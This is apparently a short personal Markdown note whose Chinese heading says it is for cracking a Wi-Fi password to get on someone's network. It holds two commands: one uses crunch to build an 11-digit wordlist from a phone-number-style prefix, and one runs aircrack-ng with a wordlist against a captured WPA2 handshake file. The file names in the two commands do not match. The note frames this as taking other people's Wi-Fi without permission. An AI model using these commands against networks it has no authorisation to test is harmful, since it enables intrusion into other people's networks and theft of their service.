 # 想蹭网现解开密码
`crunch 11 11 -t 1391040%%%% -o  pass.txt`
`aircrack-ng  -a2  wifi.cap  -w  password.txt`
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTE4NjQ0ODgxMV19
-->